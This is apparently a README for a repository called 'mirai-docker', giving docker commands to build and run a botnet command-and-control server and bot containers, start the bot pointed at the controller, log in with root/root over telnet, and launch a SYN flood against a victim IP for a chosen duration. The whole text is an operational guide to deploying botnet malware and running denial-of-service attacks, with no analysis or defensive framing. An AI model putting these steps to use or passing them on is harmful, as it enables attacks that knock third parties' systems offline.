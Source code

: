 # mirai-docker

## CNC
Build: `$ sudo docker build -t cnc .`
Run: `$ sudo docker run -i -t cnc`

## BOT
Build: `$ sudo docker build -t bot .`
Run: `$ sudo docker run -i -t bot`
Start Bot: `$ init.sh "IP of CNC" `

## Attack Instructions
Connect to CNC: `$ telnet "IP of CNC"`
username: root
password: root
attack: `$ syn "IP of Victim" "duration of attack"`
